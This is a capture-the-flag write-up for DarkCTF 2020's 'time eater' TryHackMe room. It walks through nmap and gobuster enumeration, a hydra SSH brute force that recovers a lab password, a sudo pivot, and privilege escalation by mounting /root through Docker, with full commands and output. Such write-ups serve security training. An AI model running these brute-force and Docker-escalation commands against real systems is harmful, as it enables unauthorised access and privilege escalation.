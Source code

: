 # DarkCTF 2020

## linux/time eater

> 63 solves / 446 points  
>  
> Author: Wolfy  
>  
> This room requires account on Try Hack Me tryhackme.com/jr/darkctflo  
>  
> Note: submit the root flag here.

Tags: _linux_ _web_ _bruteforce_ _docker_ _gobuster_

## Summary

Multistage exploit.

1. Find userids and password hint  
2. Bruteforce SSH  
3. Abuse Docker

Final stage was done by teammate
[gp](https://bigpick.github.io/TodayILearned/).

## Stage 1: Find ports

With most of these [tryhackmes](https://tryhackme.com/) I start with nmap
enumeration:

```  
nmap -Pn -sCV -p22,80 -oN nmap/Basic_10.10.102.97.nmap 10.10.102.97  
Nmap scan report for 10.10.102.97  
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
2.0)  
| ssh-hostkey:  
|   2048 64:60:d1:e5:39:96:90:b9:3c:72:b0:35:c2:2a:e4:f9 (RSA)  
|   256 3c:07:fb:86:de:65:9b:52:59:70:de:06:2e:58:21:48 (ECDSA)  
|_  256 b7:ed:d9:dd:40:46:b4:dc:c8:c3:5c:a1:28:78:73:f7 (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Dimension by HTML5 UP  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```

SSH and HTTP.

## Stage 2: Checkout website

There was an email form, but that was about it.

1. Fired off Burp Suite crawler and active scanner.  
2. Fired off sqlmap against form.  
3. Fired off gobuster (`gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://${IP} --timeout 30s 2>&1 | tee gobuster.out.1`)

Of the three gobuster produced something useful first:

```  
===============================================================  
Gobuster v3.0.1  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)  
===============================================================  
[+] Url:            http://10.10.102.97  
[+] Threads:        50  
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-
list-2.3-medium.txt  
[+] Status codes:   200,204,301,302,307,401,403  
[+] User Agent:     gobuster/3.0.1  
[+] Timeout:        30s  
===============================================================  
2020/09/26 14:05:31 Starting gobuster  
===============================================================  
/images (Status: 301)  
/info (Status: 301)  
/assets (Status: 301)  
/test (Status: 301)  
/cd (Status: 301)  
/git (Status: 301)  
/rabbit (Status: 301)  
/server-status (Status: 403)  
/uniqueroot (Status: 301)  
===============================================================  
2020/09/26 14:18:54 Finished  
===============================================================  
```

Enumerating `/uniqueroot` yielded a file
(`/uniqueroot/wolfie_backup_files/chat.txt`) with the following contents:

```  
Backup Chat Between Wolfie and Elliot:

Elliot: Hi!  
Wolfie: hello.  
Elliot: how's your work going?  
Wolfie: i am still developing site i am currently at initial state.How's your
work going?  
Elliot; Oh okay!. Yeah I am working on restricting the users in the server
using chroot but currently i am also at initial state some commands working
and some still needs to get configured.  
Wolfie: Great! how i check the progress?  
Elliot: If you want to check my progress you can use (/elliot_important_file).  
Wolfie: Thanks!:).

Signing Out...  
```

Great, we have two user names `wolfie` and `elliot`, and yet another link that
leads to `/elliot_important_file/note.txt` with the following:

```  
Wolfie i have added password from rockyou  
```

## Stage 3: Brute force SSH

```bash  
# hydra -L users -P ../rockyou.txt -M ip.txt -t 4 ssh  
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in
military or secret service organizations, or for illegal purposes (this is
non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26
14:25:30  
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip
waiting)) from a previous session found, to prevent overwriting,
./hydra.restore  
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688798 login tries
(l:2/p:14344399), ~7172200 tries per task  
[DATA] attacking ssh://10.10.102.97:22/  
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 28688754 to do in 10866:58h, 4
active  
[STATUS] 29.00 tries/min, 87 tries in 00:03h, 28688711 to do in 16487:46h, 4
active  
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 28688594 to do in 16406:53h, 4
active  
[STATUS] 28.20 tries/min, 423 tries in 00:15h, 28688375 to do in 16955:19h, 4
active  
[STATUS] 27.29 tries/min, 846 tries in 00:31h, 28687952 to do in 17520:14h, 4
active  
[22][ssh] host: 10.10.102.97   login: elliot   password: godisgood  
```

```  
# ssh elliot@$IP  
The authenticity of host '10.10.102.97 (10.10.102.97)' can't be established.  
ECDSA key fingerprint is SHA256:y3FWpnBN0WIfyoNeS4c+2T6AAd0HIV8jJNX7yBaaqng.  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '10.10.102.97' (ECDSA) to the list of known hosts.  
[email protected]'s password:  
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)

* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/advantage

 System information as of Sun Sep 27 02:26:38 UTC 2020

 System load:  0.0                Processes:           91  
 Usage of /:   18.0% of 23.99GB   Users logged in:     0  
 Memory usage: 16%                IP address for eth0: 10.10.102.97  
 Swap usage:   0%

* Canonical Livepatch is available for installation.  
  - Reduce system reboots and improve kernel security. Activate at:  
https://ubuntu.com/livepatch

14 packages can be updated.  
0 updates are security updates.

Last login: Tue Sep 15 10:09:00 2020 from 192.168.43.240  
elliot@wolf_server:~$  
```

We're in.

First thing I typed was `history`:

```  
...  
sudo -u dark /bin/dash  
...  
```

The `sudo` stood out:

```  
$ sudo -u dark /bin/dash  
$ cd /home/dark  
$ ls -l  
total 4  
-rw-r--r-- 1 root root 36 Sep 13 11:50 user.txt  
$ cat user.txt  
flag{user_flag_for_this_challenge}  
```

Not the flag we're looking for.

## Stage 4: Get the flag

I'm going to gloss over what didn't work for me, in short, looking for suids,
trying to brute force wolfie's password, looking for other interesting files
that may have the goods, checking out cron ("time" was in the challenge
title), looking for backups, etc...  the usual stuff.

After all that I just uploaded linpeas, and ran that as elliot and dark.  User
dark flagged `docker` as interesting.

```bash  
$ docker images  
WARNING: Error loading config file: /home/elliot/.docker/config.json: stat
/home/elliot/.docker/config.json: permission denied  
REPOSITORY          TAG                 IMAGE ID            CREATED
SIZE  
alpine              latest              a24bb4013296        4 months ago
5.57MB

dark@wolf_server:/home/dark$ docker run -v /root:/loot --rm -it alpine /bin/sh  
WARNING: Error loading config file: /home/elliot/.docker/config.json: stat
/home/elliot/.docker/config.json: permission denied  
/ # cd /loot/ [TAB]  
.local/     .rootflag/  .ssh/  
/ # cd /loot/.rootflag/  
/loot/.rootflag # ls -l  
total 4  
-rw-r--r--    1 root     root            42 Sep 12 14:05 root.txt  
/loot/.rootflag # cat root.txt  
darkCTF{Escalation_using_D0cker_1ss_c00l}  
```  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/darkctf2020/time_eater).